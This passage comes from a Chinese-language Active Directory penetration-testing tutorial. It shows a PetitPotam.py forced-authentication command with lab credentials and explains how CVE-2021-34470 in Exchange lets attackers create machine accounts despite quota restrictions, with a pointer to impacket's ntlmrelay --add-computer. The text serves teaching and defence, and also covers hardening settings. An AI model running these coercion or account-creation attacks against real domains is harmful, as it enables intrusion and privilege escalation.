 2. 执行强制认证  
    使用PetitPotam.py进行强制认证 ```shell
    python3 PetitPotam.py -u spiderman -p 123.com -d hack.lab 20.20.20.100 20.20.20.6
    ```

生成了对应的证书，由于需要结合AD CS使用，也分为两种情况：  
支持 PKINIT 协议和不支持 PKINIT 协议  
详情可以参考上一部分

0x06 利用 Exchange 创建机器账户
=======================

> CVE-2021-34470  
> 绕过创建机器账户的限制

攻击原理
----

在域中对普通用户限制创建机器账户的情况下，利用 Exchange 安装中一个有漏洞的LDAP模式对象，执行添加机器账户操作。

背景：  
由于域内用户权限不正确及配置的不当，导致用户创建机器账户进行域内渗透攻击。  
因此，在常见的域内加固过程中，对域用户创建机器账户进行限制主要可以通过以下两种方法：

1. 修改域对象的LDAP属性ms-DS-MachineAccountQuota，默认为10，设置为0即可
2. 域特权SeMachineAccountPrivilege，管理哪些用户可以向域添加机器账户，默认设置为Authenticated Users，即全部用户。可以将其修改为小范围高权限用户，如Domain Admins

该漏洞在2021年7月由James Forshaw公布，编号为CVE-2021-34470，一个计算机账户可以在自己下面创建一个msExchStorageGroup对象，然后在这个对象下可以创建许多类型的额外对象，包括机器账户。

简而言之，利用 Exchange 中存在缺陷的对象创建机器账户

相关攻击方式已经集成至 ntlmrelay 中的 --add-computer 参数中，详情见该[pull](https://github.com/SecureAuthCorp/impacket/pull/1288)  
工具使用可以查看 --add-computer 部分